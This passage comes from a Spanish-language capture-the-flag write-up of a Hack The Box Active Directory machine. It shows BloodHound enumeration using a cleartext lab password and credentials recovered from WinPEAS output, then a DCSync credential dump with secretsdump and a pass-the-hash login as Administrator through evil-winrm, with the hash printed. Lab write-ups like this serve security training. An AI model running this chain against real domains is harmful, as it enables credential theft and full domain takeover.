 ```
bloodhound &>/dev/null &
```

3- Extraigo información con bloodhound.py.

```
bloodhound.py -c All -u FSmith -p Thestrokes23 -ns 10.10.10.175 -d egotistical-bank.local
```

Obteniendo los siguientes archivos:

<img src="https://user-images.githubusercontent.com/55555187/161102160-1f423822-2a21-4693-859b-b46deca53828.png" title="" alt="recon8" width="301">

Marco FSmith como owneado y miro el output de bloodhound. Observo que FSmith pertenece a una serie de grupos que, a priori, no parecen ayudarnos en la escadala.

Otra cosa relevante es que podemos observar un usuario **svc_loanmgr** con los permisos necesarios para poder ejecutar un **DSYnc attack** por lo que conviene tenerlo en cuenta por si pudiesemos pivotar hacía él.

<img title="" src="https://user-images.githubusercontent.com/55555187/161102183-177d86d4-a7f0-45ac-85a3-556f25272803.png" alt="blood2" width="515">

<img title="" src="https://user-images.githubusercontent.com/55555187/161102181-0073cbd6-322c-4b4c-8f24-9f64d2324294.png" alt="blood1" width="360">

Una vez WinPEAS ha terminado y observando el output consigo ver unas credenciales por defecto. Las del usuario svc_loanmanager.

![winpeas](https://user-images.githubusercontent.com/55555187/161102178-f0d7cb1d-c747-47bf-ab28-17be1932a993.png)

Viendo los directorios de la máquina y viendo el output de bloodhound podemos deducir que svc_loanmanager es realmente svc_loanmgr por lo que realizo una serie de valicaciones con crackmapexec.

![recon9](https://user-images.githubusercontent.com/55555187/161102164-9108316d-dc53-40b1-bdb3-fd4706c20fdf.png)

Sabiendo que el usuario tiene permisos para realizar un DCSync, no necesito ni meterme en la máquina. Usando secretsdump dumpeo las credenciales almacenadas en el NTDS.DIT.

```
secretsdump.py egotistical-bank.local/svc_loanmgr@10.10.10.175
```

<img src="https://user-images.githubusercontent.com/55555187/161102168-ee783916-54be-4e10-aa17-ec17e847670f.png" title="" alt="recon10" width="584">

Hago pass the hash con el hash NTLM del usuario Administrator y me logueo a través de evil-winrm.

```
evil-winrm -i 10.10.10.175 -u Administrator -H 823452073d75b9d1cf70ebdf86c7f98e
```

![recon11](https://user-images.githubusercontent.com/55555187/161102173-15615a3e-4717-4e76-bf0d-6ed29a2253f1.png)
